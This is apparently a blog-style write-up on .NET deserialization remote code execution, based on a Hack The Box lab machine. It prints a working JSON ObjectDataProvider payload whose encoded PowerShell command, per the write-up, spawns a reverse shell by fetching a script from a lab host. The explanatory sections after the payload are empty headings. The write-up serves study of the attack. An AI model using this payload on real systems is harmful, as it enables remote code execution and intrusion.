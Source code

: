  # Deserialization - Object Instantiation for Remote Code Execution
 
I am currently studying Offensive Security Advanced Web Attacks and Exploitation (WEB-300). One of the sections in the curriculum is a Dot Net Nuke (DNN) deserialization vulnerability leading to code execution.

I have carried out some deserialization attacks before (all legal of course), and whilst I understand the concpet behind them I had never really thought about how the RCE occurs.

I decided to have a look at the underlying .Net objects to demonstrate what is happening under the hood once the deserialization has been carried out an the object has been instantiated.

Hopefully this will help others understand why code execution is achieved.

The questions I am going to try and answer are:

- What is a deserialization vulnerability?
- What is an `ObjectDataProvider`?
- How does the PowerShell script get executed automatically?

I am not going to discuss the code of a deserialization vulnerability as that has been done many times before... maybe instantiation has too... I don't really know... or care!

## Deserialization Vulnerabilities

According to [OWASP (2017)](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization) 'the impact of deserialization flaws cannot be overstated. These flaws can lead to remote code execution attacks, one of the most serious attacks possible'.

Serialization is the operation of taking an object or objects in memory and encoding them into a stream of bytes that can be stored (for example to a datase or file) or transmit (for example over a network). Deserialization is the opposite of serialization, a stream of bytes is taken and used to reconstruct an object or objects in memory. Examples of serialization outputs are XML and JSON.

Serialization can be very useful for transmitting objects over a network where two discontiguous systems can effectively contain the same state in terms of object instantiations.

<img width="273" alt="Screenshot 2022-06-06 at 19 05 06" src="https://user-images.githubusercontent.com/42491100/172219463-bc6dcf9e-e317-470d-abbc-a70902cfea64.png">

If the target application has a deserialization vulnerability then it may be possible to submit unsanitized JSON/XML to the web application and trigger code execution.

## An Example - JSON

The hack the box JSON machine is a perfect example to explain the underlying object instantiation. The HTTP POST payload used to exploit JSON is shown below:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c powershell.exe  -exec bypass -enc SQBFAFgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4ANAAvAHIAZQB2AC4AcABzADEAIgApAA==']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

When the web application deserializes the JSON object it spawns a reverse shell, but why?

## ObjectDataProvider



## PowerShell Execution
